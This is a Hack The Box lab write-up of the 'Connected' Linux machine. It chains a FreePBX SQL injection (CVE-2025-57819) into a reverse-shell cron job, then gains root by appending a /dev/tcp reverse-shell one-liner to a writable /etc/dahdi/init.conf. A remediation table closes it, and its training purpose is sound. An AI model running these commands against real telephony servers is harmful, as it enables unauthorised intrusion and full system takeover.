

Connected
Connected — Hack The Box, Linux, Easy
Difficulty: Easy OS: Linux
Summary¶
Connected is an easy Linux box running a FreePBX / Asterisk telephony stack. The web interface is vulnerable to an unauthenticated SQL injection (CVE-2025-57819), which is leveraged to insert a malicious cron job that grants a reverse shell as the asterisk user. Root is obtained by abusing a world-writable Asterisk/DAHDI service configuration file (/etc/dahdi/init.conf) that is executed with root privileges, allowing a reverse shell to be triggered as root via the DAHDI restart hook.
1. Nmap Scan¶
A full TCP port scan with service detection identified three open ports, all reported as tcpwrapped by Nmap's version detection:
┌──(kali㉿kali)-[~/nmap]
└─$ nmap -p- --min-rate 1000 -T4 -Pn -sV -oA nmap_full_scan 10.129.238.138
Starting Nmap 7.99 ( https://nmap.org ) at 2026-06-07 23:57 -0400
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 1.68% done; ETC: 23:59 (0:01:57 remaining)
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
RTTVAR has grown to over 2.3 seconds, decreasing to 2.0
Stats: 0:02:11 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.52% done; ETC: 23:59 (0:00:01 remaining)
Stats: 0:02:30 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.55% done; ETC: 23:59 (0:00:00 remaining)
Nmap scan report for connected.htb (10.129.238.138)
Host is up (1.1s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
22/tcp open tcpwrapped
80/tcp open tcpwrapped
443/tcp open tcpwrapped
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 160.33 seconds
| Port | State | Service |
|---|---|---|
| 22 | open | ssh (tcpwrapped) |
| 80 | open | http (tcpwrapped) |
| 443 | open | https (tcpwrapped) |
2. Recon¶
Browsing to the host on port 80/443 revealed a FreePBX administration portal (the open-source Asterisk-based VoIP/PBX management interface). FreePBX has a well-documented history of authentication and injection vulnerabilities in its web-facing modules, making it the natural target for exploitation.

Recon of the exposed interface pointed toward a known, recently disclosed vulnerability in FreePBX's module stack: CVE-2025-57819, an unauthenticated SQL injection affecting the administrator-facing endpoints, which can be chained into remote code execution.

3. Exploitation — CVE-2025-57819 (Unauthenticated SQLi → RCE)¶
A public proof-of-concept for CVE-2025-57819 was used against the target. The exploit confirms the SQL injection, then uses the resulting database access to insert a malicious cron job that executes a reverse shell payload, which is cleaned up automatically after the callback is received:
┌──(kali㉿kali)-[~/CVEs/CVE-2025-57819-poc]
└─$ python3 exploit.py http://connected.htb --ip 10.10.16.6
[*] Listener address: 10.10.16.6:4444 (iface tun0)
[*] Confirming SQLi on http://connected.htb ...
[+] Vulnerable! DB version: 5.5.65-MariaDB
[*] Listening on 0.0.0.0:4444
[*] Injecting reverse-shell cron job ...
[+] Cron job 'jkbthmng' inserted (runs every minute).
[*] Waiting for callback (up to ~70s) ...
[+] Shell from 10.129.238.138:49706 !
[+] Removed cron job 'jkbthmng' (no repeat callbacks).
--- interactive shell (Ctrl-C to quit) ---
bash: no job control in this shell
______ ______ ______ __ __
| ___| | ___ \| ___ \\ \ / /
| |_ _ __ ___ ___ | |_/ /| |_/ / \ V /
| _| | '__| / _ \ / _ \| __/ | ___ \ / \
| | | | | __/| __/| | | |_/ // /^\ \
\_| |_| \___| \___|\_| \____/ \/ \/
NOTICE! You have 3 notifications! Please log into the UI to see them!
Current Network Configuration
+-----------+-------------------+---------------------------+
| Interface | MAC Address | IP Addresses |
+-----------+-------------------+---------------------------+
| eth0 | 00:50:56:95:7E:FF | 10.129.238.138 |
| | | fe80::82bd:1bcb:a990:dd3b |
+-----------+-------------------+---------------------------+
Please note most tasks should be handled through the GUI.
You can access the GUI by typing one of the above IPs in to your web browser.
For support please visit:
http://www.freepbx.org/support-and-professional-services
+---------------------------------------------------------------------+
| This machine is not activated. Activating your system ensures that |
| your machine is eligible for support and that it has the ability to |
| install Commercial Modules. |
| |
| If you already have a Deployment ID for this machine, simply run: |
| |
| fwconsole sysadmin activate deploymentid |
| |
| to assign that Deployment ID to this system. If this system is new, |
| please go to Activation (which is on the System Admin page in the |
| Web UI) and create a new Deployment there. |
+---------------------------------------------------------------------+
< 'import pty;pty.spawn("/bin/bash")' 2>/dev/null || /bin/bash -i
bash: no job control in this shell
______ ______ ______ __ __
| ___| | ___ \| ___ \\ \ / /
| |_ _ __ ___ ___ | |_/ /| |_/ / \ V /
| _| | '__| / _ \ / _ \| __/ | ___ \ / \
| | | | | __/| __/| | | |_/ // /^\ \
\_| |_| \___| \___|\_| \____/ \/ \/
NOTICE! You have 3 notifications! Please log into the UI to see them!
Current Network Configuration
+-----------+-------------------+---------------------------+
| Interface | MAC Address | IP Addresses |
+-----------+-------------------+---------------------------+
| eth0 | 00:50:56:95:7E:FF | 10.129.238.138 |
| | | fe80::82bd:1bcb:a990:dd3b |
+-----------+-------------------+---------------------------+
Please note most tasks should be handled through the GUI.
You can access the GUI by typing one of the above IPs in to your web browser.
For support please visit:
http://www.freepbx.org/support-and-professional-services
+---------------------------------------------------------------------+
| This machine is not activated. Activating your system ensures that |
| your machine is eligible for support and that it has the ability to |
| install Commercial Modules. |
| |
| If you already have a Deployment ID for this machine, simply run: |
| |
| fwconsole sysadmin activate deploymentid |
| |
| to assign that Deployment ID to this system. If this system is new, |
| please go to Activation (which is on the System Admin page in the |
| Web UI) and create a new Deployment there. |
+---------------------------------------------------------------------+
[asterisk@connected ~]$ ls
s
bash: s: command not found
[asterisk@connected ~]$ ls
ls
user.txt
[asterisk@connected ~]$cat user.txt
cat user.txt
69d9ae247f1dbcdd70f5204868082704
This lands a shell as the asterisk service user and confirms User Flag:
4. Privilege Escalation¶
With a foothold as asterisk, enumeration of the FreePBX/Asterisk service files revealed that /etc/dahdi/init.conf — a configuration file sourced by the DAHDI telephony driver's restart/init service — was writable by the asterisk user, while the DAHDI restart hook itself runs with root privileges.
By appending a reverse-shell one-liner to that config file and then triggering a DAHDI restart (via the Asterisk sysadmin restart-request mechanism), the payload executes in the context of root the next time the service processes the restart signal:
[asterisk@connected asterisk]$ echo 'bash -c "bash -i >& /dev/tcp/10.10.16.28/9001 0>&1" &' >> /etc/dahdi/init.conf
01 0>&1" &' >> /etc/dahdi/init.conf10.10.16.28/90
[asterisk@connected asterisk]$ echo "restart" > /var/spool/asterisk/sysadmin/dahdi_restart
di_restartart" > /var/spool/asterisk/sysadmin/dah
[asterisk@connected asterisk]$
┌──(kali㉿kali)-[~/CVEs/CVE-2025-57819-poc]
└─$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.16.28] from (UNKNOWN) [10.129.106.66] 33612
bash: no job control in this shell
______ ______ ______ __ __
| ___| | ___ \| ___ \\ \ / /
| |_ _ __ ___ ___ | |_/ /| |_/ / \ V /
| _| | '__| / _ \ / _ \| __/ | ___ \ / \
| | | | | __/| __/| | | |_/ // /^\ \
\_| |_| \___| \___|\_| \____/ \/ \/
NOTICE! You have 3 notifications! Please log into the UI to see them!
Current Network Configuration
+-----------+-------------------+---------------------------+
| Interface | MAC Address | IP Addresses |
+-----------+-------------------+---------------------------+
| eth0 | 00:50:56:95:68:76 | 10.129.106.66 |
| | | fe80::82bd:1bcb:a990:dd3b |
+-----------+-------------------+---------------------------+
Please note most tasks should be handled through the GUI.
You can access the GUI by typing one of the above IPs in to your web browser.
For support please visit:
http://www.freepbx.org/support-and-professional-services
+---------------------------------------------------------------------+
| This machine is not activated. Activating your system ensures that |
| your machine is eligible for support and that it has the ability to |
| install Commercial Modules. |
| |
| If you already have a Deployment ID for this machine, simply run: |
| |
| fwconsole sysadmin activate deploymentid |
| |
| to assign that Deployment ID to this system. If this system is new, |
| please go to Activation (which is on the System Admin page in the |
| Web UI) and create a new Deployment there. |
+---------------------------------------------------------------------+
[root@connected /]# whoami
whoami
root
[root@connected /]# cat /root/root.txt
cat /root/root.txt
c571009da8add7bbe77c32cf16fbe490
Root Flag:
5. Root Cause & Remediation¶
| Issue | Root Cause | Fix |
|---|---|---|
| Unauthenticated SQLi (CVE-2025-57819) | FreePBX web endpoint fails to sanitize/parameterize user-supplied input before building SQL queries | Patch FreePBX / the affected module to the version fixing CVE-2025-57819; use parameterized queries; restrict admin UI exposure to trusted networks/VPN |
| SQLi → cron-job RCE | Database access from the SQLi was sufficient to write entries read and executed by the system's cron daemon | Harden DB-to-OS trust boundaries; the web app's DB user should not have write access to tables that influence scheduled/executed system jobs |
World-writable /etc/dahdi/init.conf executed as root |
A config file writable by the low-privileged asterisk service account is sourced/executed by a root-context service restart hook |
Apply least-privilege file permissions (root-owned, non-writable by service accounts) to any file read or executed by privileged services; avoid shell-sourcing service config files that lower-privileged users can influence |
6. Attack Chain Summary¶
Nmap scan → ports 22/80/443 (tcpwrapped)
↓
Recon → FreePBX admin portal identified
↓
CVE-2025-57819 (unauth SQLi) → confirmed on http://connected.htb
↓
SQLi → malicious cron job inserted → reverse shell as asterisk
↓
user.txt
↓
Writable /etc/dahdi/init.conf (asterisk) + root-run DAHDI restart hook
↓
Reverse-shell payload appended → dahdi_restart triggered → shell as root
↓
root.txt